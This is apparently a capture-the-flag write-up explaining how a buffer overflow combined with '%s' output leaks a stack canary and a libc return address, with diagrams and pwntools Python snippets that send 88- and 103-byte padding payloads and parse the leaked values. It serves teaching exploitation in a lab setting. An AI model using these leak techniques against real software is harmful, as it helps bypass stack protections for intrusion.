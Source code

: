 The structure of the stack can be seen. Diagram below illustrate the structure of the program's stack. 

![diagram1](/images/yawa-ductf5/leakaddressexplain.png)
To understand how to exploit `%s` and leak information. Understanding on how `%s` were needed. Diagram below shows how `%s` should work

![diagram2](/images/yawa-ductf5/leakaddressexplain2.png)

The read() function will read up until `\n` which is the null terminator and it will store everything including `\n`. However, with the presence of BOF, the way `%s` works, we can leak information. Diagram below shows how this works.

![diagram3](/images/yawa-ductf5/leakaddressexplain3.png)


##### Code 

```python
io.recvuntil(b'> ')
io.sendline(b'1')
pause()
info('Leaking Canary')
payload = 'A'*88
io.sendline(payload)
io.recvuntil(b'> ')
io.sendline(b'2')
print(io.recvline())
canary = u64(b'\x00' + io.recv(7))
print(hex(canary))
```

![demoCanary](/images/yawa-ductf5/demoCanary.png)

Previously, we mention `%s` will output everything up untill null byte `\0`. Using this technique, we overflow the buffer until it reaches the canary/address so when the program sends out output, it will leak out the canary/address value.

![demo address](/images/yawa-ductf5/demoAddress.png)

This process can also be done for leaking the return address. Diagram below illustrate how to achieve this. It will take 88 (buf size) + 8 (canary) + 8 (prev rbp) bytes to reach the return address. so we will need 'A' * 103 + '\\n' to leak it.

![diagram4](/images/yawa-ductf5/leakaddressexplain4.png)


##### Code

```python
io.recvuntil(b'> ')
io.sendline(b'1')
payload= 'A'*103 
info('Leaking LibC Address')
io.sendline(payload)
io.recvuntil(b'> ')
io.sendline(b'2')
io.recvline()
libc_addr = unpack(io.recv(6).ljust(8,b'\x00'))
print(f"libc_addr: {hex(libc_addr)}")
```

